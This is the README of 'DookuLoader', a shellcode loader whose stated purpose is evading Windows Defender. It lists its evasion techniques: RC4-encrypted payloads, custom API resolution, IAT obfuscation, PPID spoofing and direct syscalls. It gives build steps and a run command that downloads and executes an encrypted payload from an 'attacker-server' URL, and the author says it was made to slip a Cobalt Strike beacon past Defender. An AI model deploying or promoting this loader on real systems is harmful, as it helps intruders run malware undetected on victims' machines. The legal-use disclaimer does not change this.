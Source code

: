 # DookuLoader
<div align="center">
  <img width="185px" src="assets/savage.png" />
   <h1>DookuLoader</h1>
   <p><i>DookuLoader is a low level shellcode loader to bypass Windows Defender, created by <a href="https://github.com/rottaj">@rottaj>.</i></p>
   <br/>
</div>
<h3>Features</h3>
<ul>
<li><b>RC4 Encryption:</b> Employs the RC4 decryption algorithm to encrypted payloads, making them harder to detect in memory.</li>

<li><b>Custom WinAPI Functions:</b> Custom implementations of GetProcAddress and GetModuleHandle functions, with string stacks.</li>

<li><b>IAT Obfuscation:</b> Employs Import Address Table (IAT) obfuscation techniques to evade detection.</li>

<li><b>PPID Spoofing:</b> Hides execution trace by spoofing the Parent Process ID (PPID) of the injected process.</li>

<li><b>Direct Syscalls:</b> Leverages direct syscalls to bypass WinAPI hooks and interact with the Windows kernel directly.</li>
</ul>

<h3>Installation</h3>
```bash
git clone https://github.com/rottaj/DookuLoader.git
cd DookuLoader
make;
```

<h3>Run</h3>
```bash
.\dooku.exe -url "http://attacker-server/rc4-encrypted-payload.bin" 
```

<h3>Contributing</h3>
I am not a 1337 C programmer by any means. This is something I hacked together to get a cobalt strike beacon past Windows Defender. If you see anything gross or want to improve this tool, create a pull request or message me at jack@rotta.rocks.

<h3>License</h3>
This project is licensed under the MIT License - see the LICENSE file for details.

<h3>Disclaimer</h3>
Use this software responsibly and only in environments where you have legal permission.<br>
The author of this tool is not responsible for any misuse or damages caused.



<br><br>


<img src="assets/defender_bypass.png">
<br><br><br>
<img src="assets/cs.png">
<br><br>

<b>Note:</b> The use of this tool for malicious purposes is illegal and unethical. Always ensure that you have explicit permission to use this tool in any environment.